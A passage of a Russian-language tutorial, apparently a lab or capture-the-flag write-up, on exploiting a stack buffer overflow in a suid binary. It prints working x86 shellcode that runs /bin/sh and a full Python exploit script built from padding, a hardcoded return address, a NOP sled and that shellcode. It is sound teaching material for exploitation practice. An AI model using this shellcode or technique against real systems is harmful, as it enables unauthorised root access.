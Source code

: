 Так что же такое шеллкод? Просто это кусок кода (написанный в шестнадцатеричном формате в нашей ситуации), который мы используем в качестве полезной нагрузки для выполнения чего-то. `/bin/sh`например. И этот двоичный файл suid … поэтому, если мы запустим шелл-код, который выполняет `/bin/sh`с бинарником мы получим корневую оболочку.  

Достать шеллкоды можно из [shell-storm](http://shell-storm.org/shellcode/) или [изexploit-db](https://www.exploit-db.com/) , конечно есть куча других ресурсов, я просто привожу примеры.  
Это [шеллкод](https://www.exploit-db.com/exploits/13357) , который мы собираемся использовать для этой задачи:

```
\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

Этот шелл-код выполняется `/bin/sh`

## NOP (Нет операции)

По сути, никакая операция не используется, чтобы убедиться, что наш эксплойт не сработает, потому что мы не всегда указываем на правильный адрес, поэтому мы добавляем вещи, которые ничего не делают, и указываем на них. Затем, когда программа их выполняет достигнет этих NOP и продолжит их выполнение (ничего не делает), пока не достигнет шелл-кода.  

## Создание эксплойта

В последних задачах это решил один оператор печати Python. На этот раз будет беспорядок, поэтому мы создадим небольшой эксплойт с помощью python.  

Первым делом мы импортируем модуль с именем struct , я сейчас объясню почему.  
`import struct` Затем мы создадим переменную, которая будет содержать заполнение (символы для заполнения буфера). `pad = "\x41" * 76` После того, как он заполнит буфер, он попадет в EIP, нам нужен новый адрес EIP, который мы назначим, как я сказал выше, нам нужно, чтобы он был адресом следующей инструкции (4 байта после исходного адреса EIP), поэтому он будет `0xbffff77c + 4`, Google может просто дать вам ответ: D. это будет `0xbffff780`. Мы добавим это значение в переменную, но помните, что оно нам нужно в обратном порядке. Вот почему структура важна. если ты сделаешь `import struct;struct.pack("I" , 0xbffff780)`из интерпретатора python он напечатает `\x80\xf7\xff\xbf`, это облегчает жизнь :D  
`EIP = struct.pack("I", 0xbffff780)`  
Затем идет наш шеллкод

```python
shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"`
```

И последнее, это NOP, это может быть что угодно, поэтому 100 символов будет хорошо.  
`NOP = "\x90" * 100`  
Хорошо, наш эксплойт готов, нам просто нужно распечатать финальную полезную нагрузку, так что:  
`print pad + EIP + NOP + shellcode`  
Давайте посмотрим на сценарий:

```python
import struct
pad = "\x41" * 76
EIP = struct.pack("I", 0xbffff780)
shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
NOP = "\x90" * 100
print pad + EIP + NOP + shellcode
```
